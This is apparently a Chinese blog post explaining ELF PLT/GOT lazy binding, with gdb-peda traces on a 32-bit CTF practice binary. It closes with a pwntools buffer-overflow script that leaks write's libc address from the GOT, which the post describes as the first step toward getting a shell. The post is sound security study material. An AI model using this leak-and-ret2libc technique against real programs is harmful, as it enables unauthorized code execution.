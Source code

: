 ```yaml
---
layout: post
title: "非常详细地解释plt&got"
date: 2018-04-07
categories: jekyll update
---
```

### 非常详细解释plt&got
GOT（Global Offset Table）：全局偏移表用于记录在 ELF 文件中所用到的共享库中符号的绝对地址。在程序刚开始运行时，GOT 表项是空的，当符号第一次被调用时会动态解析符号的绝对地址然后转去执行，并将被解析符号的绝对地址记录在 GOT 中，第二次调用同一符号时，由于 GOT 中已经记录了其绝对地址，直接转去执行即可（不用重新解析）。

PLT（Procedure Linkage Table）：过程链接表的作用是将位置无关的符号转移到绝对地址。当一个外部符号被调用时，PLT 去引用 GOT 中的其符号对应的绝对地址，然后转入并执行。

GOT是Linux ELF文件中用于定位全局变量和函数的一个表。PLT是Linux ELF文件中用于延迟绑定的表，即函数第一次被调用的时候才进行绑定。
所谓延迟绑定，就是**当函数第一次被调用的时候才进行绑定**（包括符号查找、重定位等），如果函数从来没有用到过就不进行绑定。基于延迟绑定可以大大加快程序的启动速度，特别有利于一些引用了大量函数的程序。(打个比方，你一次性去超市买了一大堆物品，但是其中有些物品可能你永远也不会使用，这样就浪费了钱财；而延迟绑定就相当于需要的时候才去超市买东西，这样就节省了开支。)
下面简单介绍一下延迟绑定的基本原理。假如存在一个bar函数，这个函数在PLT中的条目为bar@plt，在GOT中的条目为bar@got，那么在第一次调用bar函数的时候，首先会跳转到PLT，伪代码如下：
```
bar@plt:
jmp bar@got
patch bar@got
```
这里会从PLT跳转到GOT，如果函数从来没有调用过，那么这时候GOT会跳转回PLT并调用patch bar@got，这一行代码的作用是将bar函数真正的地址填充到bar@got，然后跳转到bar函数真正的地址执行代码。当我们下次再调用bar函数的时候，执行路径就是先后跳转到bar@plt、bar@got、bar真正的地址。

<img src="/images/posts/plt&got/1521794449228.png" >

关于这个非常棒的一个解释博文：http://rickgray.me/use-gdb-to-study-got-and-plt


例子解析：

做这个例子的时候有一个**问题**：从网上下载的ELF文件可以完成复现，但是自己用源码编译的则会出错，地址会有点奇怪，可能是自己配置的问题还处理的不够好。。。**待解决**；下面用下载下来的ELF文件(之前的level1)来解释一下这里的pit&got
**已解决**：编译程序时没有关闭pie，只要添加参数`-no-pie`即可。

这里以write函数作为例子：

首先单步执行到`call   0x8048340 <write@plt>`
查看`0x8048340`地址的情况：
```
db-peda$ x /3i 0x8048340
   0x8048340 <write@plt>:	jmp    DWORD PTR ds:0x804a00c
   0x8048346 <write@plt+6>:	push   0x18
   0x804834b <write@plt+11>:	jmp    0x8048300
```
可以看出其跳转到地址`0x804a00c`
用xinfo查看其跳转情况：
```
gdb-peda$ xinfo 0x804a00c
0x804a00c --> 0x8048346 (<write@plt+6>:	push   0x18)
Virtual memory mapping:
Start : 0x0804a000
End   : 0x0804b000
Offset: 0xc
Perm  : rwxp
Name  : /root/Desktop/ROP/linux_x86/level1
```
容易知道其在plt表中有一个跳转到`0x8048346 `，跟进查看地址情况
```
gdb-peda$ pdisass 0x8048346
Dump of assembler code from 0x8048346 to 0x8048366::	Dump of assembler code from 0x8048346 to 0x8048366:
   0x08048346 <write@plt+6>:	push   0x18
   0x0804834b <write@plt+11>:	jmp    0x8048300
   0x08048350 <_start+0>:	xor    ebp,ebp
   0x08048352 <_start+2>:	pop    esi
   0x08048353 <_start+3>:	mov    ecx,esp
   0x08048355 <_start+5>:	and    esp,0xfffffff0
   0x08048358 <_start+8>:	push   eax
   0x08048359 <_start+9>:	push   esp
   0x0804835a <_start+10>:	push   edx
   0x0804835b <_start+11>:	push   0x80484d0
   0x08048360 <_start+16>:	push   0x8048460
   0x08048365 <_start+21>:	push   ecx
End of assembler dump.

```

又一次跳转`0x8048300`：
```
gdb-peda$ pdisass 0x8048300
Dump of assembler code from 0x8048300 to 0x8048320::	Dump of assembler code from 0x8048300 to 0x8048320:
   0x08048300:	push   DWORD PTR ds:0x8049ff8
   0x08048306:	jmp    DWORD PTR ds:0x8049ffc
   0x0804830c:	add    BYTE PTR [eax],al
   0x0804830e:	add    BYTE PTR [eax],al
   0x08048310 <read@plt+0>:	jmp    DWORD PTR ds:0x804a000
   0x08048316 <read@plt+6>:	push   0x0
   0x0804831b <read@plt+11>:	jmp    0x8048300
End of assembler dump.
```
再一次跳转`0x8049ffc`
```
gdb-peda$ xinfo 0x8049ffc
0x8049ffc --> 0xb7ff0710 (<_dl_runtime_resolve>:	push   eax)
Virtual memory mapping:
Start : 0x08049000
End   : 0x0804a000
Offset: 0xffc
Perm  : r-xp
Name  : /root/Desktop/ROP/linux_x86/level1
```
这上面的`_dl_runtime_resolve`涉及到后面level4要讲的一个高级ROP的用法，这里先不对这里作详细讲解

经过上面的流程分析(多次跳转)，我们可以进行进行单步调试来进行分析，当动态解析（_dl_runtime_resolve）完成后，流程会直接跳转到 printf() 函数主体

这一堆的跳转可以结合上面那一副图来进行理解。

<img src="/images/posts/plt&got/1523088173997.png" >

单步跟进发现进行一系列的符号解析操作之后ret到write函数的真正地址`0xb7ed3cc0`进行操作。

<img src="/images/posts/plt&got/1523088253947.png" >

怎样验证这个就是write的真实地址呢？
写了个程序来打印write的真实地址：
注：下面这个脚本可以用来泄露libc地址的第一步，再通过计算可以得到system的真实地址，最后成功getshell。
```
from pwn import *
elf = ELF('level1')

p = process('./level1')

plt_write = elf.symbols['write']
print 'plt_write= ' + hex(plt_write)
got_write = elf.got['write']
print 'got_write= ' + hex(got_write)
vulfun_addr = 0x08048404
print 'vulfun= ' + hex(vulfun_addr)

payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(got_write) + p32(4)

print "\n###sending payload1 ...###"
p.send(payload1)

print "\n###receving write() addr...###"
write_addr = u32(p.recv(4))
print 'write_addr=' + hex(write_addr)
```

运行结果：

<img src="/images/posts/plt&got/1523089037547.png" >

总结来说就是，GOT 保存了程序中所要调用的函数的地址，运行一开时其表项为空，会在运行时实时的更新表项。一个符号调用在第一次时会解析出绝对地址更新到 GOT 中，第二次调用时就直接找到 GOT 表项所存储的函数地址直接调用了。










